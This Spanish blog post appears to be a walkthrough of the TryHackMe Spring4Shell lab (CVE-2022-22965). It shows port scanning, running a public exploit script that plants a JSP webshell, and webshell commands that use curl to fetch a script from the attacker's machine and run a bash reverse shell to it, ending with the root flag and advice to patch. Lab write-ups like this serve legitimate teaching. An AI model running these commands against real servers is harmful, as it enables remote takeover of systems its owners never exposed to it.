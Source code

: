 ```yaml
---
layout: single
author: Bast1ant1c
title: THM Spring4Shell
excerpt: "Vamos a resolver la maquina Spring4SHell de TryHackMe. ¡Let's hack!"
date: 2022-04-10
classes: wide
header:
  teaser: /assets/images/spring4shell/inicio.png
  teaser_home_page: true
categories:
  - TryHackMe
tags:
  - Writeup
  - Spring4shell
---
```


<p align="center">
<img src="/assets/images/spring4shell/inicio.png">
</p>

¡Hola!
En esta ocasión vamos a hablar de la maquina **Spring4shell**. 

[TryHackMe](https://tryhackme.com/) lanzó hace unas semanas esta máquina para aprender acerca de una de las vulnerabilidades más sonadas del momento.

El impacto de la vulnerabilidad asciende al nivel de que, [piratas informáticos](https://backtrackacademy.com/articulo) sacaron provecho de este acontecimiento para ejecutar el malware de botnet MIRAI en Singapur, descargando el programa malicioso en la carpeta `/tmp` y ejecutarlo, luego de un cambio de permisos bajo el comando `chmod`.

Vamos a ver un poco de la vulnerabilidad, limitaciones, explotación y remediaciones.

## VULNERABILIDAD

En marzo de 2022 se hace [pública](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965) la vulnerabilidad de **ejecución remota de comandos** en el marco de Java Spring, específicamente en `Spring Cloud Functions` y `Spring Core`, generando un gran impacto en el framework.

El mundo de **Spring Framework** presenta una vulnerabilidad de ejecución remota de comandos, a través de una _webshell_ la cual es posible luego de forzar a escribir un archivo de extensión `.jsp` en el servidor web.

El principal **riesgo** de el éxito en la explotación de esta vulnerabilidad se presenta en el potencial _escalamiento de privilegios_ para lograr un acceso total al servidor víctima y a la infraestructura de la organización afectada por el ataque.

## LIMITACIONES

Las condiciones para poder explotar la vulnerabilidad **Spring4shell** son las siguientes:

* JDK 9+.
* Spring Framework (<5.2 / 5.2.0-19 / 5.3.0-17).
* Apache Tomcat como servidor de Spring, empaquetado como WAR.
* Las dependencias spring-webmvc y/o spring-webflux como componentes del marco de Spring.
* Uso de hacktools.

## EXPLOTACIÓN

Para realizar la máquina, creamos un directorio y a su vez subdirectorios para organizar la información necesaria.

```zsh
❯ mkdir spring4shell
❯ cd !$
cd spring4shell
❯ mkdir nmap exploit
```

Realizamos un **reconocimiento** por medio de ping, identificando por el TTL (Time To Live) que la maquina es _Linux_.

```zsh
❯ ping -c 1 10.10.25.142
PING 10.10.25.142 (10.10.25.142) 56(84) bytes of data.
64 bytes from 10.10.25.142: icmp_seq=1 ttl=63 time=195 ms

--- 10.10.25.142 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 194.521/194.521/194.521/0.000 ms
```

Hacemos un **escaneo de puertos** para detectar cuales de estos están abiertos para identificar vulnerabilidades en los mismos.

```zsh
❯ sudo nmap -p- --open -sS --min-rate 5000 10.10.25.142 -n -Pn -oG inicial
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 09:28 -05
Nmap scan report for 10.10.25.142
Host is up (0.31s latency).
Not shown: 52759 filtered tcp ports (no-response), 12773 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

Luego de identificar los puertos **22**, **80** y **8080**, se procede a detectar servicios y versiones activos.

```zsh
❯ sudo nmap -p22,80,8080 -sCV 10.10.25.142 -n -Pn -oG servicios
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 09:35 -05
Nmap scan report for 10.10.25.142
Host is up (0.27s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0c:92:70:6c:b6:df:1f:0b:45:ed:42:8d:b6:38:cc:67 (RSA)
|   256 18:af:36:34:c9:2e:a4:6f:7a:27:31:e8:ef:6c:84:fb (ECDSA)
|_  256 78:a6:1c:8a:16:5e:a6:29:29:a9:99:d0:66:9c:5e:06 (ED25519)
80/tcp   open  http    nginx 1.20.2
|_http-title: Vulnerable
|_http-server-header: nginx/1.20.2
8080/tcp open  http    nginx 1.20.2
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME               FILENAME
| 1260  03-Apr-2022 02:30  exploit.zip
|_
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.20.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el navegador accedemos a la IP bajo el puerto 8080 y procedemos a descargar el archivo **exploit.zip**.

<p align="center">
<img src="/assets/images/spring4shell/exploitzip.png">
</p>

Movemos el archivo a nuestra carpeta y procedemos a descomprimir el archivo con la utilidad `unzip`.

```zsh
❯ mv ~/Descargas/firefox/exploit.zip .
❯ unzip exploit.zip
Archive:  exploit.zip
[exploit.zip] exploit.py password: 
  inflating: exploit.py              
❯ ls
 exploit.py   exploit.zip
```

La información del script descargado se puede obtener ingresando al GitHub de [BobTheShoplifter](https://github.com/BobTheShoplifter/Spring4Shell-POC).

Procedemos a ver el funcionamiento del script.

```python
❯ python3 exploit.py
usage: exploit.py [-h] [-f FILENAME] [-p PASSWORD] [-d DIRECTORY] url
exploit.py: error: the following arguments are required: url
```

Ahora ejecutamos el script con la URL victima (_FILENAME_, _PASSWORD_ y _DIRECTORY_ son opcionales).

```python
❯ python3 exploit.py http://10.10.25.142/
Shell Uploaded Successfully!
Your shell can be found at: http://10.10.25.142/tomcatwar.jsp?pwd=thm&cmd=whoami
```

Como indica la salida del script, la webshell ha sido cargada en el servidor con éxito, por lo tanto, ya tenemos la **capacidad** de ejecutar comandos de manera remota.

<p align="center">
<img src="/assets/images/spring4shell/vulnerable.png">
</p>
<p align="center">
<img src="/assets/images/spring4shell/intrusion.png">
</p>

Ahora vamos a subir una **reverseshell** para ganar acceso a la maquina!

Crearemos un archivo `shell.sh`.

```zsh
nano shell.sh

#!/bin/bash
bash -i >& /dev/tcp/10.9.3.40/1234 0>&1
```

Luego de crear el archivo, vamos a cargar este al servidor vulnerable, por medio de un servidor local de python.

```zsh
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Ejecutaremos en el navegador la siguiente **URL** para cargar nuestra shell en la carpeta `/tmp` de la víctima.

* http://10.10.25.142/tomcatwar.jsp?pwd=thm&cmd=curl http://10.9.3.40:8000/shell.sh -o /tmp/shell.sh

<p align="center">
<img src="/assets/images/spring4shell/shell.png">
</p>

Nuestra shell se encuentra ahora en el servidor vulnerable!

Vamos a ponernos en escucha con la utilidad netcat, en esta ocasión bajo el puerto **1234**.

```zsh
❯ nc -lvnp 1234
listening on [any] 1234 ...
```

Procedemos a ejecutar el archivo en el servidor víctima.

* http://10.10.25.142/tomcatwar.jsp?pwd=thm&cmd=bash /tmp/shell.sh

<p align="center">
<img src="/assets/images/spring4shell/admin.png">
</p>

Como se puede ver en la imagen anterior, hemos logrado obtener una **shell** en la maquina! 

Ahora vamos a realizar un _tratamiento_ de la TTY, para lograr una mayor fluidez en la consola, para ello vamos a ejecutar los siguientes comandos iniciando en la maquina víctima.

```zsh
script /dev/null -c bash
^Z
stty raw -echo; fg
reset
xterm
export XTERM=xterm
export SHELL=bash
```

Luego de que logramos una terminal fluida, vamos a buscar la **flag** y leerla!

En esta ocasión solo tenemos una **flag**.

Solo mostraré los primeros 10 dígitos de está.

```zsh
root@spring4shell:/# ls /root
flag.txt
root@spring4shell:/# head -c 10 /root/flag.txt ; echo
THM{NjAyNz
```

**¡Ya está!** 

<p align="center">
<img src="/assets/images/spring4shell/finish.png">
</p>


Por último, les recomiendo **actualizar** sus frameworks de Spring o generar controles pertinentes para que sus sistemas no sean vulnerables!

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**
